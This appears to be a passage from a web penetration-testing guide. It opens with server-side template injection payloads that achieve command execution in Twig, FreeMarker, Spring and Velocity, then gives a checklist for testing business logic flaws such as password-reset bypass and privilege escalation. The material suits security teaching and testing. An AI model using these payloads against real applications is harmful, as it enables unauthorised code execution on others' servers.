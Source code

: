 ```bash

# Step 4: Twig RCE payload
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

# Step 5: FreeMarker RCE payload
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}

# Step 6: Spring RCE payload
${T(java.lang.Runtime).getRuntime().exec('id')}

# Step 7: Velocity RCE payload
#set($cmd="id")
#set($runtime=$Runtime.getRuntime())
#set($process=$runtime.exec($cmd))
```

### 5.4 Business Logic Flaws

Exploiting application logic rather than technical vulnerabilities:

1. **Business Logic Vulnerability Types**:
   - Authentication bypasses
   - Authorization flaws
   - Input validation gaps
   - Process flow manipulation
   - Race conditions

2. **Testing for Logic Flaws**:
   - Understanding application functionality
   - Process flow mapping
   - Parameter manipulation
   - State manipulation
   - Timing attacks

3. **Common Logic Flaws**:
   - Insufficient validation
   - Missing steps in processes
   - Weak enforcement of business rules
   - Inconsistent security controls
   - Exploitable assumptions

```
# Example: Business logic flaw testing methodology

## Step 1: Map the application
- Identify all functionality
- Document normal process flows
- Identify validation points
- Map authorization checks

## Step 2: Test authentication logic
- Password reset functionality
  - Can you reset another user's password?
  - Can you bypass email verification?
  - Are tokens properly validated?
- Account registration
  - Can you create privileged accounts?
  - Can you bypass verification steps?
- Multi-step processes
  - Can steps be skipped or performed out of order?

## Step 3: Test authorization logic
- Horizontal privilege escalation
  - Change user IDs in requests
  - Access another user's data
```